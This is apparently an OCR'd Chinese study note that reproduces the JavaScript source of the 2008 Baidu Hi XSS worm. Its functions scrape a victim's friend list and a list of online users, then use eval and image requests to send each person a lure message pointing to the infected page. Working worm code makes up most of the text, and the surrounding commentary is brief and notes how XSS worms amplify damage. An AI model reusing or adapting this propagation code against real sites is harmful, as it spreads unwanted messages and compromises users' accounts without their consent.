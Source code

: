 ```
}

function hack() {
 return 0;
}

function sendfriendmsg(){
 myfurl=myhibaidu+"/friends";
 s=getmydata(myfurl);
 evilmsg="哈，节日快乐呀!热烈庆祝2008，心情好好，记得要想我呀！
\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n"+myhibai
du;

 var D=function(A,B){A[A.length]=B;};
 re = /(.+)D\(k\,\[([^\]]+?)\]\)(.*)/g;
 friends = s.match(re);
 eval(friends[0]);
 for(i in k) {
 eval('msgimg'+i+'=new Image();');
 eval('msgimg'+i+'.src="http://msg.baidu.com/?ct=22&cm=MailSend&tn=bmSubmit&sn="+URLE
ncoding(k[i][2])+"&co="+URLEncoding(evilmsg)+"&vcodeinput=";');
 }
}

```

 2016-04-06

后来又增加了一个传播函数，不过那个时候百度已经开始屏蔽此蠕虫了：

```
 function onlinemsg(){
  doit=Math.floor(Math.random() * (600 + 1));
  if(doit>500) {
  evilonlinemsg="哈哈,还记得我不,加个友情链接吧?\r\n\r\n\r\n我的地址是"+myhibaidu;
  xmlDoc=new ActiveXObject("Microsoft.XMLDOM");
  xmlDoc.async=false;
  xmlDoc.load("http://hi.baidu.com/sys/file/moreonline.xml");
  online=xmlDoc.documentElement;
  users=online.getElementsByTagName("id");
  x=Math.floor(Math.random() * (200 + 1));
  eval('msgimg'+x+'=new Image();');
  eval('msgimg'+x+'.src="http://msg.baidu.com/?ct=22&cm=MailSend&tn=bmSubmit&sn=
"+URLEncoding(users[x].text)+"&co="+URLEncoding(evilonlinemsg)+"&vcodeinput=";');
  }
  }

```
 2016-04-06

攻击者想要通过XSS做坏事是很容易的，而XSS Worm则能够把这种破坏无限扩大，这正是大型网站所特别担心的事情

 2016-04-06
